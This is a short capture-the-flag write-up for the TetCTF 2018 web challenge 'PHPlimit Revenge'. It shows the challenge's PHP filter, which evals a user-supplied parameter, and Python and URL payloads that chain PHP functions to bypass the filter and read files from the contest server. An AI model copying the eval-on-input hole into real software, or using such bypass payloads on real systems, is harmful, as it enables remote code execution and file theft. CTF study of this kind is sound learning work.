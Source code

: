 # TetCTF - 2018

## Web - PHPlimit Revenge

{% code title="filter.php" %}
```php
<?php

if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) 
{    
    if(preg_match('/_|m|info|get/i',$_GET['code']))
    {
        die('<strong>va anh dech can gi nhieu ngoai em :(</strong><audio controls autoplay loop hidden><source src="assets/nhac.mp3" type="audio/mpeg"></audio>');
    }
    else
    {
        eval($_GET['code']);
    }
} 
else 
{
    show_source(__FILE__);
}

?>
```
{% endcode %}

I am not familiar with PHP code, but with a mindset of RE-er,...then JUST FUCKING DO IT!

Btw, i joined after contest started for a while \(9 AM 4/1/2018\), so they already released the phplimit revenge 2, i just need to read which funcs are filtered by 2, and use it to create my payload

{% code title="payload1" %}
```python
import requests

url = "http://139.180.219.222/?code=print(readfile(end(scandir(realpath(chr(rand()))))));"
r = requests.get(url)
while len(r.content) == 0:
	r = requests.get(url)
print r.content

#view-source:http://139.180.219.222/?code=print(readfile(end(scandir(realpath(chr(ord(join(localeconv()))))))));
```
{% endcode %}

{% code title="payload2" %}
```text
#view-source:http://139.180.219.222/?code=print(readfile(end(scandir(realpath(chr(ord(join(localeconv()))))))));
```
{% endcode %}
